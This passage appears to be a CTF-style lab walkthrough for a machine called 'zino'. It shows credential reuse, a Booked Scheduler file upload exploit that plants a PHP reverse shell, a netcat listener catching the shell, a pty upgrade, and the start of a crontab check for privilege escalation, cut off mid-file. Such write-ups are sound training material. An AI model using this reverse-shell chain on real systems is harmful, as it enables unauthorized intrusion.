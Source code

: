 ```bash

We’ll make a note of the plaintext admin:adminadmin credentials.

Exploitation
Booked Scheduler File Upload Vulnerability
Navigating to http://192.168.130.64:8003/booked/, we are redirected to http://192.168.130.64:8003/booked/Web/?. The footer indicates that this app is Booked Scheduler v2.7.5.



This version of the software has a file upload vulnerability (https://www.exploit-db.com/exploits/46486), which requires user credentials for the application. Since the admin:adminadmin credentials work against http://192.168.130.64:8003/booked/Web/index.php, we can use them for this exploit.

Since this Metasploit module is inconsistent, we will replicate the exploit manually. First, we’ll navigate to http://192.168.130.64:8003/booked/Web/admin/manage_theme.php and download a PHP reverse shell from http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz.

We’ll update the IP address to match our Kali machine, and select port 8003. Next, we’ll upload the shell under the Favicon upload control. Even though the user interface does not indicate it, the file will be successfully uploaded after clicking Update.



As the exploit suggests, our reverse shell file was saved as /var/www/html/booked/Web/custom-favicon.php. Let’s start a netcat listener on port 8003 and navigate to our reverse shell at http://192.168.130.64:8003/booked/Web/custom-favicon.php to obtain remote code execution as the www-data user.

kali@kali:~$ nc -lvp 8003
listening on [any] 8003 ...
192.168.130.64: inverse host lookup failed: Unknown host
connect to [192.168.49.130] from (UNKNOWN) [192.168.130.64] 44046
Linux zino 4.19.0-8-amd64 #1 SMP Debian 4.19.98-1 (2020-01-26) x86_64 GNU/Linux
 13:16:30 up 32 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@zino:/$

Escalation
Crontab
Now that we have our foothold, let’s investigate crontab jobs.

www-data@zino:/$ cat /etc/crontab 
cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
```